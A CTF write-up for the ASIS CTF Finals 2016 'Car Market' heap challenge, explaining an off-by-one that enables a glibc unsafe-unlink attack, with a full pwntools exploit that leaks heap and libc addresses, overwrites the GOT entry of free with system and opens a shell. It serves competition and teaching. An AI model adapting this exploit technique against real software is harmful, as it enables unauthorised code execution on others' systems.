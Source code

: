 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2016/asis-ctf-finals-2016-car-market/
  - /blog/2016/09/12/asis-ctf-finals-2016-car-market/
date: "2016-09-12T02:26:51+09:00"
tags: [ "ctf", "writeup", "asis-ctf", "pwn", "heap", "unlink-attack", "glibc" ]
---
```


# ASIS CTF Finals 2016: Car Market

Good problem.

## solution

A problem of heap, and the `malloc`/`free` are the ones of latest glibc.
Structures are below. There is a off-by-one, which the `name` of `customer_t` leaks the null byte and rewrites the least byte of `comment` with null.

``` c
car_t **g_cars = malloc(sizeof(car_t *) * 256);  // 0x6020c8
struct car_t {
    char name[16];  // 0x0
    int price;  // 0x10
    customer_t *customer;  // 0x18
}
struct customer_t {
    char firstname[32];  // 0x0
    char name[32];  // 0x20
    char *comment; // 0x40
}
```

There are `g_cars`, list of malloced pointes, so we can bypass the check `q->fd->bk == q` and `q->bk->fd == q` and do unlink attack.
See <https://github.com/shellphish/how2heap/blob/master/unsafe_unlink.c>.

However `x->customer` (used as `x->bk`) of a car pointer `x` is not our controll, so I did with $2$ steps.
At first, let `x->customer->comment` be a pointer of another car `y` (because `y` is on the list `g_cars`), `y->price` (`y->fd`) be the `g_cars + k` where `(g_cars + k)->bk == y`, and `*(y->customer + 0x10)` (`y->bk->fd`) be `y`.
Then free the `x` (and `x->customer`).
This causes use after free, so we can make a customer which is listed on the car list.
Secondly, do the similar thing and write the address the car list on the car list itself.
Now we can read/write arbitrary address, and get the flag.


## implementation

``` python
#!/usr/bin/env python2
import time
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='car-market.asis-ctf.ir')
parser.add_argument('port', nargs='?', default=31337, type=int)
args = parser.parse_args()
context.log_level = 'debug'

elf = ELF('./car_market')
libc = ELF('./libc.so.6') # ubuntu 16.04
p = remote(args.host, args.port)

def prompt(*xs):
    p.recvuntil('>\n')
    for x in xs:
        if isinstance(x, int):
            x = str(x)
        p.sendline(x)

# 1: list
# 2: add Car
# 3: remove car
# 4: select car
# 5: exit
list_cars = lambda: prompt(1)
add_car = lambda model, price: prompt(2, model, price)
remove_car = lambda index: prompt(3, index)
select_car = lambda index: prompt(4, index)
exit = lambda: prompt(5)

# 1: info
# 2: set model
# 3: set price
# 4: add customer
# 5: exit
info_car = lambda: prompt(1)
set_model = lambda s: prompt(2, s)
set_price = lambda s: prompt(3, s)
add_customer = lambda: prompt(4)
exit_car = lambda: prompt(5)

# 1: set name
# 2: set firstname
# 3: set comment
# 4: exit
set_name = lambda s: prompt(1, s)
set_firstname = lambda s: prompt(2, s)
set_comment = lambda s: prompt(3, s)
exit_customer = lambda: prompt(4)

for i in range(20):
    add_car(('car %d ' % i).ljust(15, 'X'), u32('YYYY'))
    select_car(i)
    if i != 11:
        add_customer()
        set_firstname(('customer %d' % i).ljust(0x20, 'A'))
        set_name('B' * 0x20)
        set_comment('C' * 0x48)
        exit_customer()
    exit_car()

# leak heap address
select_car(0)
add_customer()
set_firstname(('customer %d' % 0).ljust(0x20, 'A'))
set_name('B' * 0x20)
set_comment('C' * 0x48)
exit_customer()
info_car()
p.recvuntil('Name : ')
name = p.recvline(keepends=False)
heap_base = u64(name[0x20 :].ljust(8, '\0')) - 0x8a0
log.info('heap base: %#x', heap_base)
exit_car()
pointer_vector = lambda i: heap_base+0x10+i*8

# make fake chunks on a car
bk = 0x18
select_car(9)
set_price(pointer_vector(9) - bk)
add_customer()
set_firstname('A' * 16 + p64(heap_base + 0xf70))
set_comment(p64(0x80) + p64(0xc0))
exit_customer()
exit_car()

# first unlink
select_car(10)
add_customer()
set_comment('C')
set_name('B' * 0x20)
exit_customer()
add_customer() # free
exit_customer()
exit_car()

# make a customer who is listed on the pointer_vector, and make a fake chunk on it
fd = 0x10
bk = 0x18
select_car(11)
add_customer()
set_name('B' * 16 + p64(pointer_vector(9) - bk) + p64(pointer_vector(9) - fd))
exit_customer()
exit_car()

# make an another fake chunk
select_car(12)
add_customer()
set_comment('C' * 48 + p64(0x250) + p64(0x90))
exit_customer()
exit_car()

# second unlink
select_car(13)
add_customer()
set_comment('C')
set_name('B' * 0x20)
exit_customer()
add_customer() # free
exit_customer()
exit_car()

# read libc base
select_car(9)
set_model(p64(elf.got['setvbuf']))
exit_car()
select_car(6)
info_car()
p.recvuntil('Model  : ')
libc_base = u64(p.recvuntil(' \n')[: -2 ].ljust(8, '\0')) - libc.symbols['setvbuf']
log.info('libc base: %#x', libc_base)
exit_car()

# got overwrite
select_car(9)
set_model(p64(elf.got['free']))
exit_car()
select_car(6)
set_model(p64(libc_base + libc.symbols['system']).rstrip('\0'))
exit_car()

# set /bin/sh
select_car(9)
set_model('/bin/sh\0')
exit_car()

# run
remove_car(9)

time.sleep(1)
p.sendline('id')
p.interactive()
```
